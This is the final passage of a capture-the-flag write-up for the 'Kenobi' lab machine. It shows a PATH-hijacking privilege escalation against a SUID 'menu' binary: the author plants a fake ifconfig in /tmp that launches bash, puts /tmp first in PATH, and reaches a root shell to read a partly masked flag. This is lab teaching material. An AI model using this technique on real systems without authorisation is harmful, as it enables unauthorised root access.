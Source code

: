 ```bash
kenobi@kenobi:/$ cd /tmp
kenobi@kenobi:/tmp$ echo /bin/bash > ifconfig
kenobi@kenobi:/tmp$ chmod +x ifconfig
```

Once with the file created, let's hijack the path.

```bash
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ echo $PATH
/tmp:/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

As you can see now the `/tmp` folder is now included in the path, so the `menu` binary will now look for the `ifconfig` at `/tmp` instead of `/usr/bin/ifconfig`.

Then we just have to execute `menu` and select option 3 and we should get a shell as `root`.

```bash
kenobi@kenobi:/tmp$ menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :3
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:/tmp# whoami
root
```

Once as `root` we can read the `root.txt` flag at `/root/root.txt`.

```bash
root@kenobi:/tmp# cat /root/root.txt 
177******62289f3738*******381f02
```

---
## Final Thoughts

The **Kenobi** machine provides a well-structured learning experience, focusing on fundamental enumeration techniques and privilege escalation. The exploitation phase is straightforward, requiring careful **NFS enumeration** to gain initial access. Privilege escalation, while not overly complex, is a great exercise in recognizing **SUID misconfigurations** and leveraging for root access. A solid machine that reinforces core skills and serves as an excellent stepping stone for more advanced challenges.

![Desktop View](KenobiPwn.png)

-- -
**Thanks for reading, i’ll appreciate that you take a look to my other posts :)**

